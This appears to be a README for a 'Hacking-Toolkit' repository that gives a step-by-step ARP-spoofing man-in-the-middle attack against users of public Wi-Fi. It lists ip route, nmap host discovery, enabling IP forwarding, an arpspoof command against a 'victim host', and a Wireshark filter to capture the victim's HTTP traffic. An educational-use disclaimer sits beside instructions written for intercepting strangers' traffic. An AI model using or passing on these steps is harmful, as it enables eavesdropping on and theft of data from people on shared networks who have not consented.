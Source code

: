 # Hacking-Toolkit
I compiled all hacking tools I have found, Credit to the original writers of these tools. Please use this code at your own risk and NEVER TRY IT ON A WEBSITE YOU DON'T HAVE PERMISSION FROM  I REPEAT NEVER.
This is only for educational purposes, If you do choose to use it for malicious purposes I am not held responsible.

Here are the instructions on how to use each tool:

1: Invasion (This only works if you are trying to access a public WI-FI access point)

Requirements: Kali Linux or other Linux with required tools installed, Nmap, Arpspoof, and Wireshark

Step 1: Connect to the target network and run the following command in the terminal:

```
ip route
```

Step 2: Next step is to use nmap to find the different hosts connected to the network by executing the following command:

```
nmap -sP -n "gateway address/ip range"
```

Step 3: Enable IP forwarding using the command:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Step 4: To get victim traffic on our device, we will be using arpspoof command. For arpspoof command we require to know the interface on which we carry out the attack, for that run the following command:

```
ifconfig
```

Now run the following command:

```
arpspoof -i wlp3s0 -t "victim host ip address" -r "our ip address"
```

Step 5: Finally to intercept the victim’s traffic we are going to use Wireshark and all we have to do is use the victim’s IP Address. Let’s say we only want to have HTTP traffic, we can use the following query:

```
http && ip.addr == "victim's ip address"
```



